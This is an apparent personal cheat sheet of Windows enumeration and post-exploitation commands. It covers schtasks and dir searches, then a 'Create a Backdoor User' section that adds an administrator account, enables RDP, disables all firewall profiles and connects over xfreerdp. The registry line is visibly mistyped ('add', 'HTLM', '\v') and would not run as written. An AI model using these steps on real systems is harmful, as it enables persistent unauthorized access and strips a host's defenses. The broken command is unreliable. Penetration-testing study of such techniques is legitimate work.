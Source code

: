 # Windows Enumeration

### Rough Draft

#### schtasks

Allows you to see the scheduled tasks on your local box (once you have a shell/ssh session). The following is command useful as it will essentially answer the quesion, if we can exploit this, what kind of priviledges will we gain:

```bash
schtasks /query
...
schtasks /query /fo LIST /v /TN "FTP Backup"
```

#### type 

The Windows equivalent of cat.

#### findstr

The Windows equivalent of grep.

#### Recursively Search Through Directories 

```bash
dir /s/b file.txt
```

#### Create a Backdoor User

You can use this user to RDP into a session and obtain a GUI. This assumes that you are already NT Authority.
```bash
net user /add backdoor Password1
...
net localgroup administrators /add backdoor
...
# Enables RDP Connections
add "HTLM\SYSTEM\CurrentControlSet\Control\Terminal Server" \v "fDenyTSConnections" /t REG_DWORD /d 0 /f
...
# Disable the Firewalls
netsh advfirewall set allprofiles state off
...
# RDP In & Allow Clipboard Sharing
xfreerdp /v:ms01 /u:backdoor /p:Password1 +x clipboard /cert:ignore

```
